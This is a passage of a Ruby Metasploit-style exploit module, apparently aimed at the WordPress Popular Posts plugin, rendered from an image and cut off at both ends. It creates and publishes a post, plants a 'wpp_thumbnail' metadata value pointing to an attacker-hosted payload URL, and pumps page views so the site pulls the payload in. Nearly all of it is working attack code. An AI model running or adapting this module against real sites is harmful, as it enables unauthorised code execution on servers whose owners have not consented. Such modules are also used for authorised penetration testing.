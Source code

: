 to enable this.  See https://www.hostpapa.com/knowledgebase/add-custom-meta-boxes-wordpress-posts/. Or check (while writing a post) Options > Preferences > Panels > Additional > Custom Fields.')      /name="toggle-custom-fields-nonce" value="(?&lt;custom_nonce>[^"]*)/ =~ res.body      ajax_nonce = enable_custom_fields(cookie, custom_nonce, post_id)    end    unless ajax_nonce.nil?      vprint_status("ajax nonce: #{ajax_nonce}")    end    unless wp_nonce.nil?      vprint_status("wp nonce: #{wp_nonce}")    end    unless post_id.nil?      vprint_status("Created Post: #{post_id}")    end    fail_with(Failure::UnexpectedReply, 'Unable to retrieve nonces and/or new post id') unless ajax_nonce &amp;&amp; wp_nonce &amp;&amp; post_id    # publish new post    vprint_status("Writing content to Post: #{post_id}")    # this is very different from the EDB POC, I kept getting 200 to the home page with their example, so this is based off what the UI submits    res = send_request_cgi(      'uri' => normalize_uri(target_uri.path, 'index.php'),      'method' => 'POST',      'cookie' => cookie,      'keep_cookies' => 'true',      'ctype' => 'application/json',      'accept' => 'application/json',      'vars_get' => {        '_locale' => 'user',        'rest_route' => normalize_uri(target_uri.path, 'wp', 'v2', 'posts', post_id)      },      'data' => {        'id' => post_id,        'title' => Rex::Text.rand_text_alphanumeric(20..30),        'content' => "&lt;!-- wp:paragraph -->\n&lt;p>#{Rex::Text.rand_text_alphanumeric(100..200)}&lt;/p>\n&lt;!-- /wp:paragraph -->",        'status' => 'publish'      }.to_json,      'headers' => {        'X-WP-Nonce' => wp_nonce,        'X-HTTP-Method-Override' => 'PUT'      }    )    fail_with(Failure::Unreachable, 'Site not responding') unless res    fail_with(Failure::UnexpectedReply, 'Failed to retrieve page') unless res.code == 200    fail_with(Failure::UnexpectedReply, 'Post failed to publish') unless res.body.include? '"status":"publish"'    return post_id, ajax_nonce, wp_nonce  end  def add_meta(cookie, post_id, ajax_nonce, payload_name)    payload_url = "http://#{datastore['SRVHOSTNAME']}:#{datastore['SRVPORT']}/#{payload_name}"    vprint_status("Adding malicious metadata for redirect to #{payload_url}")    res = send_request_cgi(      'uri' => normalize_uri(target_uri.path, 'wp-admin', 'admin-ajax.php'),      'method' => 'POST',      'cookie' => cookie,      'keep_cookies' => 'true',      'vars_post' => {        '_ajax_nonce' => 0,        'action' => 'add-meta',        'metakeyselect' => 'wpp_thumbnail',        'metakeyinput' => '',        'metavalue' => payload_url,        '_ajax_nonce-add-meta' => ajax_nonce,        'post_id' => post_id      }    )    fail_with(Failure::Unreachable, 'Site not responding') unless res    fail_with(Failure::UnexpectedReply, 'Failed to retrieve page') unless res.code == 200    fail_with(Failure::UnexpectedReply, 'Failed to update metadata') unless res.body.include? "&lt;tr id='meta-"  end  def boost_post(cookie, post_id, wp_nonce, post_count)    # redirect as needed    res = send_request_cgi(      'uri' => normalize_uri(target_uri.path, 'index.php'),      'keep_cookies' => 'true',      'cookie' => cookie,      'vars_get' => { 'page_id' => post_id }    )    fail_with(Failure::Unreachable, 'Site not responding') unless res    fail_with(Failure::UnexpectedReply, 'Failed to retrieve page') unless res.code == 200 || res.code == 301    print_status("Sending #{post_count} views to #{res.headers['Location']}")    location = res.headers['Location'].split('/')[3...-1].join('/') # http://example.com/&lt;take this value>/&lt;and anything after>